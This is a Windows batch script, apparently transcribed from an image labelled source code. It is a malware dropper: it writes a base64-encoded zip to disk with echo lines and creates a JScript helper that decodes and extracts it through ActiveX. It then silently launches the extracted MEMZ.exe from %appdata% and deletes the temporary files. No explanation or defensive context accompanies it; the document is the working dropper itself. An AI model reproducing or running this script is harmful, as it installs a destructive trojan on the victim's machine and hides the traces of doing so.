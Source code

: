 echo oTay7yqmAbsbPH+uXOsROieU+Fy8JSmRNEgr8PA+jEPq2mCpMxbmS0G2nUpaL5+QbeSyspn+qOCB>>x
echo GHEcIT8h1S4k/7jNTA4j/0WozttcPlzJg5ZecoBU891yk4qFEXXKJtwu6UVPWp6F7iNvfIXyQIra>>x
echo TrnLKUY9j6ytC3pIUcb5VAoY8TslNBVnVCMIWy29IK5q8Tnx/jk0+QZG+hzxuTT3wVnfRrZJ2Fof>>x
echo MgdylFQH7D21XTSJ+Q7lLBOoriI8pJV+IsD7gas9TbhKkrQp8rSRb1F54E9BIWAVIC0b96+J9iLa>>x
echo ruaDW0OCXyZCyJ+JxRf2VjldHkdcZEIySRUyS2q6uPjkAwX1LCpdG2mxWZomLDSbVLpClZ4QtbAt>>x
echo FOBhCKm1tro2PuSSYsoeaRa20hMui8hHp9ScPD+D5AFwEbaG/ZOoVrsnDJP+FLbp84fMXbeHXQG+>>x
echo Cjc72atekvFreV8TfJleMc3VrWbrBGtyo8JGk2CLnD2ZycLPtdtIApmyDZoFc2DLNlBd8LlR1Ka2>>x
echo GkvdhFNqiBXXXpsQ9jngNW21DfX1En42iccNLLPWC4tM7DiMstogVH51Xd2Xh+DrLm8uNxGt3kRM>>x
echo AD/gKcAYgM01kQ2AQcAIIDXPRCoAfsA+wCigFMd7L+AIYBxgLUAbcAhwBpCOwLoBMAgYpkHWgDmA>>x
echo CGBpIfCAxwDDgDcB9EvUM4AYYAwwDmCMkA+QDmABuYAiwMUS0FthIroV8oFSCpwHMAjYB3gKcBKQ>>x
echo jdSjFNAMuBMwCNgHOAw4BhgFaIpBG7ABsA9wCPA8IAZgwGcpoBdwBHAZKQ4Xxt5Ok+sf3IC5DYQc>>x
echo nIP1vwJ9xvHL58j47nTImIOzEm3TAULOYvzm9wk5jva+cjLxv0v+HykKko5nuvy/XT6Hp3JyX4Kf>>x
echo hhynhlzNU/6+VKzu9XpY3PGCuEutyjHkczm4DnQJDlwPVuW0NK/JK82h2b/PYfcIPn5VTh8fzFl9>>x
echo 0/SkCkRR3EBxMQEBX3BVDm635cEuJ++1B/MmfyajPy6V24Pe/G2GHFxEfK5u3C1ap3IDKZatCAUQ>>x
echo G2p93UKc2sJrUDMulOZhZpBexHFqxdvABPjb6XWRd1wNM5OdU7vl3Q5B6nDH9bAe+lyVQ7sRccwO>>x
echo r8uH8yJgDwmBHDbsMnfRbb4qp9vuCfI5bMFVfgVfzbCi4HPiVRRMrpNqsGBChWh8pcmRgG6A3WZx>>x
echo uVwpZ+Ju4TZz3ZyXC3NPcf/ODXNHufe4jziFYZphpiHDsNxgMJQZTAbe4Df0G35h+I3hPcNFw2eG>>x
echo tMIVhdWF6wpbCjcVbi0MFe4qvKfwXwofLTxa+Hbhfyv8oPBSYZoxw5hnLDdWG9cZNxm7jT7jncZv>>x
echo Gx8z/tL4ivG08V3jZ0ZlUVKRrii9KKsov6ikyFS0vqi1qKMoUHR30f1F3yt6oujVojNFHxbpim8o>>x
echo zizOLq4rbireUNxR/I3i14rfKf7P4ovFaSXzS4pLzCVbSrwlwZK+kqGSb5fsK3my5HDJcyUnS86U>>x
echo fFjiXhFaMbAiuuKfVvzzit+u+GjF5RXTSvNLS0otpetK15e2lfpL95Q+UPr90qdKXy49VfpeaULZ>>x
echo 7DK2LL+stqyzrL9ssOyBskfK/rXsp2XPlA2XHS37sExdvrC8sfyWck95oHx7+UD53vIfl6eunLeS>>x
echo XblkJc31D1P9cgyn4bScjkvl0rlMjuWyuaXQNccVQd8V0Hg1V8PVcVaumdvAbYL2HZyT83B+LsT1>>x
echo cndyEW4XN8jdw+3l7uP2cQe4g9xj3OPcIVjnMHeEex4WOsa9zo1wb3InuVPcKHeGi3HnuDHuIjfO>>x
echo XeaIgTFoDFqDzpBqSDdkGlhDtmGpIdfAGRCHDTUGq2GDYbPBCWv2Gv4XwsY/yv+35X8CUEsBAhQA>>x
echo FAAAAAgAdXfqSJDoh9lzIQAAADoAAAgAAAAAAAAAAAAAAP+BAAAAAE1FTVouZXhlUEsFBgAAAAAB>>x
echo AAEANgAAAJkhAAAAAA==>>x

echo f=new ActiveXObject(^"Scripting.FileSystemObject^");i=f.getFile(^"x^").openAsTextStream();>x.js
echo x=new ActiveXObject(^"MSXml2.DOMDocument^").createElement(^"Base64Data^");x.dataType=^"bin.base64^";>>x.js
echo x.text=i.readAll();o=new ActiveXObject(^"ADODB.Stream^");o.type=1;o.open();o.write(x.nodeTypedValue);>>x.js
echo z=f.getAbsolutePathName(^"z.zip^");o.saveToFile(z);s=new ActiveXObject(^"Shell.Application^");>>x.js
echo s.namespace(26).copyHere(s.namespace(z).items());o.close();i.close();>>x.js

set v="%appdata%\MEMZ.exe"
del %v% >NUL 2>NUL
cscript x.js >NUL 2>NUL
del x.js >NUL 2>NUL
del z.zip >NUL 2>NUL
del x >NUL 2>NUL
start "" %v%

